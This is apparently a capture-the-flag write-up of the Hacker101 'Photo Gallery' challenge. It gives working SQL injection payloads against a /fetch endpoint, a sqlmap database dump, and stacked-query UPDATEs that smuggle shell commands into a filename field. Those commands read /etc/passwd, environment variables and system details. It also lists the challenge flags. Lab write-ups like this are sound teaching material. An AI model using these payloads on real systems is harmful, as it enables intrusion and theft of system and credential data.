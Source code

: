 ## Photo Gallery

### 1: Initial Assessment

The first page we are presented is a list of images:

![image](https://github.com/RBraga-droid/hacker101-CTFs/assets/62329743/a74f9cd7-45b1-4a2e-99dc-f156e4c7c712)

Notice that one is gone missing. There is also a caption saying "Space used: 0 total". 

In the history of requests we see a fetch API request presenting an ID, showing the requests for the 3 images. 

### 2: Hacking fetch

Fetch is used in the body of the main page to get the 3 images. As we saw an image is not available. 

![image](https://github.com/RBraga-droid/hacker101-CTFs/assets/62329743/2784107c-522b-4745-ad36-447420f6f466)

In the details we see that the service is hosted on (openresty)[https://openresty.org/en/]. 

Our idea is to test out if some SQLi attacks could work on a statement that we suppost looks something like:

``SELECT IMAGE FROM TABLE WHERE id=#id``

It means that we could use a UNION ttack trying to path traversal the structure of the resting application at blind. For example we feed the following:

``/fetch?id=-1%20union%20SELECT%20'/main.py'``

Looking for some main file hidden somewhere and we are in fact able to see the following page: 

![image](https://github.com/RBraga-droid/hacker101-CTFs/assets/62329743/5e726ecb-d35a-497b-97df-02933a2c7da0)

Containing a flag: 9d433df785fd343be28a51ecaa840af4716e507b4aafcf227650bab486e8e32c. 

### 3: Hacking the database

Now that we know the target is vulnerable to SQLi attacks we continue to explore potential vulnerabilities in the database. In particular we discovered looking at the main.py file that the db name is "level5" so we run sqlmap trying to dump the content of that database, or in general trying to see if there are some other useful informations inside. 

``sqlmap https://4a92b0ced7577a490581d5125aaa07a6.ctf.hacker101.com/fetch?id=1 -D level5 --dump ``. 

By running the command showed previously we are eventually able to display the content of the database: 

![image](https://github.com/RBraga-droid/hacker101-CTFs/assets/62329743/431cad10-77af-46e9-b62e-65bbc4fb99b7)

And see that curious name for the third image: it is not a picture actually, it's the flag: 

9ee771877d24cb7cec34cefae0b35e187dd0110c57f86d162ffbaa8a1df5834e

We want to address the fact that just by looking at names of tables and files, the security of a database can be considered compromised because it is now possible to perform a lot of name based attacks, security breach and similar.

Looking further in the main.py file it is possible to spot a call to shell asking for memory consumption. We noticed that this command does not seem to be sanitized, it runs:

``du -ch files/file1file2file3 `` probably bad written. The important ug here is that it uses `%s` to address the filename meaning that we could concat other commands using `;`. What we want to do is for example list allt he files in the directory trying to assess the environment of the database. We could do so by running:

``du -ch files/filename;ls > list.txt;`` or any other file that we know how to access by using SQLi. The infected payload/filename then would be something like `;ls > list.txt`. We can use one of the images as a recipient for this file by running an SQL update on the image id=2. 

Notice that this is stilla a vulnerability as a remote hacker is actively messing around with the content of the database. 

What we do is running: ``/fetch?id=1; UPDATE photos SET filename=";ls > infectedOut.txt" where id=3 ;commit;--`` creating the infected file. After this we refresh the page to run the main and then we interrogate the file by running ``/fetch?id=4 UNION SELECT 'infectedOut.txt' --``. 

We can in fact see the content of the directory: 

![image](https://github.com/RBraga-droid/hacker101-CTFs/assets/62329743/2021547b-f548-4e06-b255-b3b5b67e8bb8)

We use this same attack to check even more important details of the system: 

``/fetch?id=1; UPDATE photos SET filename=";whoami > infectedOut.txt" where id=3 ;commit;--``
![image](https://github.com/RBraga-droid/hacker101-CTFs/assets/62329743/f02788f8-2297-4e6e-8a02-940d40991a61)

``/fetch?id=1; UPDATE photos SET filename=";ip a > infectedOut.txt" where id=3 ;commit;--``
![image](https://github.com/RBraga-droid/hacker101-CTFs/assets/62329743/be0221d9-718d-463f-ab50-617e089af7eb)

``/fetch?id=1; UPDATE photos SET filename=";cat /etc/passwd > infectedOut.txt" where id=3 ;commit;--``
![image](https://github.com/RBraga-droid/hacker101-CTFs/assets/62329743/bdde146c-7c89-4416-8e7b-4cdaab1b43d8)

``/fetch?id=1; UPDATE photos SET filename=";env > infectedOut.txt" where id=3 ;commit;--``
![image](https://github.com/RBraga-droid/hacker101-CTFs/assets/62329743/9162dc00-587c-476b-a26a-e3a59868dd8a)
b3925c525fc4c59bad2db1561ba9a2aefed6b2cd491f3d09bdef04c095f16bdd as a flag too. 

And others...

### 4: Conclusions

As a conclusion we can say that the webpages lacks of general sanification of the input in URL bar and in the fetch reqeust format. By some simple SQLi attacks it is possible to run shell commands on the server itself, extracting important informtaions to further leverage vulnerabilities, even to inject malicious content. We fly over the problems regarding availability and integrity of the digital content: those photos can be easily swapped with something else, deleted or similar. 
We suggest a more sophisticated way of input sanitizing, making it more difficult for an attacker to inject SQL commands in the fetch request. Also the script used to calculate the space used is vulnerable to shell injection attacks and must be revised. 









